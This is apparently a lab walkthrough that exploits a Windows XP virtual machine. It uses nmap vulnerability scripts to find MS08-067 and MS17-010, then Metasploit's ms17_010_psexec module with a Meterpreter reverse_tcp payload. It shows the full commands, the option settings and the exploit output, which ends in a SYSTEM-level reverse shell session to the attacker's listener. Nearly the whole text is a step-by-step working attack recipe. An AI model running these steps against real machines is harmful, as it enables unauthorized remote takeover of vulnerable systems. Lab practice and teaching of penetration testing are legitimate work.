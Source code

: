 1, First, I try to find axploit via nmap by typing nmap -sV --script vuln {RHOST}

Output:

tarting Nmap 7.91 ( https://nmap.org ) at 2020-10-19 23:43 EDT

Nmap scan report for 192.168.123.46

Host is up (0.000059s latency).

Not shown: 997 closed ports

PORT    STATE SERVICE      VERSION

135/tcp open  msrpc        Microsoft Windows RPC

139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn

445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds

MAC Address: 00:0C:29:6A:63:39 (VMware)

Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:

|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED

| smb-vuln-ms08-067: 

|   VULNERABLE:

|   Microsoft Windows system vulnerable to remote code execution (MS08-067)

|     State: LIKELY VULNERABLE

|     IDs:  CVE:CVE-2008-4250

|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,

|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary

|           code via a crafted RPC request that triggers the overflow during path canonicalization.

|           
|     Disclosure date: 2008-10-23

|     References:

|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx

|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250

|_smb-vuln-ms10-054: false

|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)

| smb-vuln-ms17-010: 

|   VULNERABLE:

|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)

|     State: VULNERABLE

|     IDs:  CVE:CVE-2017-0143

|     Risk factor: HIGH

|       A critical remote code execution vulnerability exists in Microsoft SMBv1

|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14

|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .

Nmap done: 1 IP address (1 host up) scanned in 29.22 seconds

CVE 2017-0143(MS17-010) is Vulnerable so we ganna attack that one.

2,Search to see if this model is avaliable on Metasploit by typing "search MS17-010"

We ganna use "exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution" today

3,Select this model by typing "use exploit/windows/smb/ms17_010_psexec" 

4,We need to check what information is required by typing "show options"

odule options (exploit/windows/smb/ms17_010_psexec):

   Name                  Current Setting                                                 Required  Description
   
   ----                  ---------------                                                 --------  -----------
   
   DBGTRACE              false                                                           yes       Show extra debug trace info
   
   LEAKATTEMPTS          99                                                              yes       How many times to try to leak transaction
   
   NAMEDPIPE                                                                             no        A named pipe that can be connected to (leave blank for auto)
   
   NAMED_PIPES           /usr/share/metasploit-framework/data/wordlists/named_pipes.txt  yes       List of named pipes to check
   
   RHOSTS                192.168.123.46                                                  yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  
   RPORT                 445                                                             yes       The Target port (TCP)
   
   SERVICE_DESCRIPTION                                                                   no        Service description to to be used on target for pretty listing
   
   SERVICE_DISPLAY_NAME                                                                  no        The service display name
   
   SERVICE_NAME                                                                          no        The service name
   
   SHARE                 ADMIN$                                                          yes       The share to connect to, can be an admin share (ADMIN$,C$,...) or a normal read/write folder share
   
   SMBDomain             .                                                               no        The Windows domain to use for authentication
   
   SMBPass                                                                               no        The password for the specified username
   
   SMBUser                                                                               no        The username to authenticate as
   


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   
   ----      ---------------  --------  -----------
   
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   
   LHOST     192.168.123.50   yes       The listen address (an interface may be specified)
   
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   
   --  ----
   
   0   Automatic
   
   Most of the Info either preconfigure or isn't requirement, so we only need to configure RHOST(RemoteHost)

5,Set RHOST(RemoteHost) by typing set RHOST {Remote IP}

6,Type run to start the attack

Output

[*] Started reverse TCP handler on 192.168.123.50:4444 

[*] 192.168.123.46:445 - Target OS: Windows 5.1

[*] 192.168.123.46:445 - Filling barrel with fish... done

[*] 192.168.123.46:445 - <---------------- | Entering Danger Zone | ---------------->

[*] 192.168.123.46:445 -        [*] Preparing dynamite...

[*] 192.168.123.46:445 -                [*] Trying stick 1 (x86)...Boom!

[*] 192.168.123.46:445 -        [+] Successfully Leaked Transaction!

[*] 192.168.123.46:445 -        [+] Successfully caught Fish-in-a-barrel

[*] 192.168.123.46:445 - <---------------- | Leaving Danger Zone | ---------------->

[*] 192.168.123.46:445 - Reading from CONNECTION struct at: 0x85f6e760

[*] 192.168.123.46:445 - Built a write-what-where primitive...

[+] 192.168.123.46:445 - Overwrite complete... SYSTEM session obtained!

[*] 192.168.123.46:445 - Selecting native target

[*] 192.168.123.46:445 - Uploading payload... VpmcMLGd.exe

[*] 192.168.123.46:445 - Created \VpmcMLGd.exe...

[+] 192.168.123.46:445 - Service started successfully...

[*] 192.168.123.46:445 - Deleting \VpmcMLGd.exe...

[*] Sending stage (176195 bytes) to 192.168.123.46

[*] Meterpreter session 2 opened (192.168.123.50:4444 -> 192.168.123.46:1061) at 2020-10-20 00:14:52 -0400

Andddd Success!



